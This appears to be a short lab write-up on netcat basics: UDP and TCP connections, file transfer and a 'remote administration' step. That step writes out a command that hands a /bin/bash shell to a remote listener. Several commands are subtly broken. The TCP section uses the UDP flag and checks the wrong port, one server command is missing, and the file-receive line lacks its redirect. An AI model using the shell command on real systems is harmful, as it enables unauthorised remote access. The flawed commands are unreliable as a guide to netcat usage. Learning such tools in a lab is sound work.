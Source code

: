 ```yaml
---
description: NetCat Basics
---
```


# Task 1

### 1. Connecting & Listening To UDP Port

* On Client Side Run 

```text
netcat -u <target-ip> 2468
```

![](assets/21.png)

* On Server Side Run

```text
netcat -u -l -p 2468
```

![](assets/22.png)

* We can observe the network connection using netstat

```text
netstat | grep 2468
```

![](assets/23.png)

### 2. Connecting & Listening To TCP Port

* On Client Side Run 

```text
netcat -u <target-ip> 1357
```

![](assets/11.png)

* On Server Side Run

![](assets/12.png)

* We can observe the network connection using netstat

```text
netstat | grep 2468
```

![](assets/13.png)

### 3. Transferring Files with Netcat

* On client side run

```text
nc <target_ip> <port> < file_name
```

![](assets/1.png)

* On Server Side Run

```text
nc -l -p <port> file_name
```

![](assets/2.png)

* Can view the file on the target

![](assets/3.png)

### 4. Remote Administration with netcat

* On Client side run

```text
nc -nv <target_ip> <port> -e /bin/bash
```

![](assets/15.png)

* On Server Side

```text
nc -nvlp <port>
```

![](assets/16.png)

* Run os commands

![](assets/17.png)




